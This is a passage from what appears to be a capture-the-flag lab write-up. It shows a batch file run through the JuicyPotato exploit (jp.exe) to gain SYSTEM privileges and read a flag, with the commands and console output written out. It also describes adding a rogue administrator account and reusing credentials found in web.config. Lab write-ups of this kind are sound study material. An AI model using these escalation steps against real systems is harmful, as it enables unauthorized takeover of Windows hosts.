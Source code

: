      Directory of c:\users\administrator\desktop
    
    04/07/2018  12:02 PM    <DIR>          .
    04/07/2018  12:02 PM    <DIR>          ..
    03/26/2018  04:29 PM                37 flag.txt
                   1 File(s)             37 bytes
                   2 Dir(s)   6,083,448,832 bytes free
                   2 Dir(s)   6,083,448,832 bytes free
    

I’ll create a `.bat` file to get the flag:

    
    
    root@kali# cat flag.bat 
    type c:\users\administrator\desktop\flag.txt > c:\temp\out.txt
    

Upload and run it with `jp.exe`, and the flag is in `temp`:

    
    
    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>upload flag.bat
    100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 7/7 [00:00<00:00, 45.73K/s]
    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>jp.exe -t * -p C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp\flag.bat -l 9001 -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}                                                        
    Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 9001
    ......
    [+] authresult 0
    {5B3E6773-3A99-4A3D-8096-7765DD11785C};NT AUTHORITY\SYSTEM
    
    [+] CreateProcessWithTokenW OK
    
    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>type \temp\out.txt
    
    POO{ff87c4fe************************}
    

### Administrator Shell

I don’t have any console text for the rest of this, but I noticed WinRM on
IPv6 at this point, and my next step was to use `jp.exe` to add a local
administrator account. Each time the lab got reset, and I would have to go
into the DB, bound to add an sa user, start a shell, upload JuicyPotato and a
bat file to add the account and add it to the administrators group, and then
WinRM as that account.

After a couple times, I decided to try the creds from the `web.config`, and
they worked. It was both a relief and maddening.

[](/2020/06/08/endgame-poo.html)

